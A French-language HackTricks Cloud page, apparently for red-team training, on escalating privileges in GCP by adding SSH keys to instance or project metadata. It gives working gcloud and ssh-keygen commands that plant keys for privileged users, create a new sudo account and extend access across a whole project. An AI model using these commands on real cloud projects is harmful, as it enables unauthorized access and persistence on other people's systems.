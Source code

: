 # GCP - Ajouter des métadonnées SSH personnalisées

## GCP - Ajouter des métadonnées SSH personnalisées

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

### Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance pourrait entraîner **des risques de sécurité significatifs si un attaquant obtient les autorisations nécessaires**.

#### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, **les systèmes Linux** exécutent souvent des scripts à partir de l'[Environnement Invité Linux Python pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour **des mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée au fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement en créant un nouvel utilisateur avec des privilèges `sudo`**, selon le format de la clé. Et l'attaquant pourra compromettre l'hôte.

#### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**
*   Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie sera sous `metadata`, spécifiquement la clé `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.
2. **Préparer un fichier texte pour les métadonnées de la clé SSH :**
* Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour préserver les clés existantes tout en ajoutant de nouvelles.
3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**
*   Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en veillant à ce que le champ de commentaire (`-C`) corresponde au nom d'utilisateur cible.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.
4. **Mettre à jour les métadonnées de la clé SSH de l'instance :**
*   Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**
*   Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant au shell dans le contexte de l'utilisateur cible (`alice` dans cet exemple).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau qui se verra attribuer des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir l'accès SSH à plusieurs machines virtuelles (VM) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à toute instance au sein du projet qui n'a pas explicitement bloqué les clés SSH à l'échelle du projet. Voici un guide résumé :

1. **Appliquer des clés SSH au niveau du projet :**
*   Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter des clés SSH depuis `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VM du projet, sauf si une VM a l'option "Bloquer les clés SSH à l'échelle du projet" activée.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH dans les instances en utilisant des clés à l'échelle du projet :**
* Avec des clés SSH à l'échelle du projet en place, vous pouvez SSH dans n'importe quelle instance au sein du projet. Les instances qui ne bloquent pas les clés à l'échelle du projet accepteront la clé SSH, accordant l'accès.
* Une méthode directe pour SSH dans une instance est d'utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter d'accéder.

## Références

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
